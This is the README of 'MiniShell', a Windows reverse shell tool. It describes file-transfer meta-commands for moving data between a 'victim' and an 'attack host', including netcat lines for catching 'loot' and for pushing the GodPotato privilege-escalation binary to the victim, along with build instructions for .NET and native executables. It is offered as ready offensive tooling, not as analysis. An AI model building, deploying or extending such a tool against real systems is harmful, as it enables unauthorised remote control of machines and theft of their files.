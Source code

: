 # MiniShell
A reverse shell for Windows systems that brings some convenience features.
Among them are:
+ file transfer
+ automatic reconnection attempt on connection loss
+ easy duplication of established shells
+ easy choice/switch between `cmd` and `powershell` command interpreter
+ features can be chosen at build time (can be stripped down to a minimal shell without extra features)

# Usage
`MiniShell` provides so-called meta-commands. These start with a colon (":"). Currently the supported meta-commands are:
+ `:exit` - kill the shell (it doesn't come back)
+ `:dup [[<host>] <port>]` - send a duplicate of the current shell (default to the same endpoint it is already connected to)
+ `:c ps` - connect to a new `powershell` command interpreter (useful if current command hangs)
+ `:c cmd` - same as above but with `cmd`
+ `:get [[<host>] <port>] <reomote-file>` - read the contents of `<remote-file>` and send it to `<host>:<port>` (by default the same endpoint already connected to)
  + e.g. catch file on attack host like this: `nc -l 80 > myLoot.txt`
+ `:put [[<host>] <port>] <remote-file>` - read file from `<host>:<port>` and write to `<remote-file>` (by default the same endpoint already connected to)
  + e.g. send file like this: `cat GodPotato-NET4.exe | nc -q 1 -lp 80`
  + then retrieve file on victim like this `:put C:\windows\temp\pwn\GodPotato.exe` (assuming your shell is connected to port `80`, otherwise specify port)

# Build
+ using Visual Studio 2022

## .NET executable
+ preferably set target framework at `net46` since this should work for most Windows 10 and newer system out of the box

### Build release version (recommended)
+ smaller than debug
+ debug output disabled (doesn't matter much for regular use)
```
MSBuild.exe .\MiniShell.sln /p:Configuration=Release
```
### Build debug version
```
MSBuild.exe .\MiniShell.sln /p:Configuration=Debug
```

## Native executable
+ should work on Windows systems without .NET runtime (pre Windows 10), but binaries are much larger than .NET binaries
+ uses the ahead-of-time compilation feature of .NET 7+ (https://learn.microsoft.com/en-us/dotnet/core/deploying/native-aot/?tabs=net7%2Cwindows)
+ set target framework to `net8` (in `MiniShell.csproj`) before building


### Build release version (recommended)
+ recommended since it saves about half in size
```
dotnet publish -r win-x64 -c Release -f net8 -p:PublishAot=true --self-contained
```

### Build debug version
```
dotnet publish -r win-x64 -c Debug -f net8 -p:PublishAot=true --self-contained
```
